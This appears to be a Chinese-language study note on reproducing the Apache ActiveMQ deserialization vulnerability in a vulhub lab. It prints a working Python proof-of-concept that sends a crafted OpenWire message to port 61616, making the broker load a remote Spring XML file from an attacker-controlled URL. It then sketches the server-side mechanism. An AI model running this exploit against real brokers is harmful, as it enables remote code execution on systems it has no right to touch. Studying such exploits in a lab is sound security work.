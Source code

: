 有了 vulhub 我们复现漏洞固然轻松简单，漏洞的分析也有前辈撰写的佳作：[https://xz.aliyun.com/t/12929](https://xz.aliyun.com/t/12929)

所以在这里我们只了解这个漏洞大概的原理，根据 poc 来进行学习

```bash
import io
import socket
import sys


def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        # out = io.BytesIO()  # 创建一个内存中的二进制流
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        # print(list(out.getvalue()))
        out.flush()
        out.close()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```

其实看到`org.springframework.context.support.ClassPathXmlApplicationContext`就知道，这是攻击了 Spring 框架中用于加载 XML 配置文件的类，那么攻击原理可能是这样：

```bash
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```
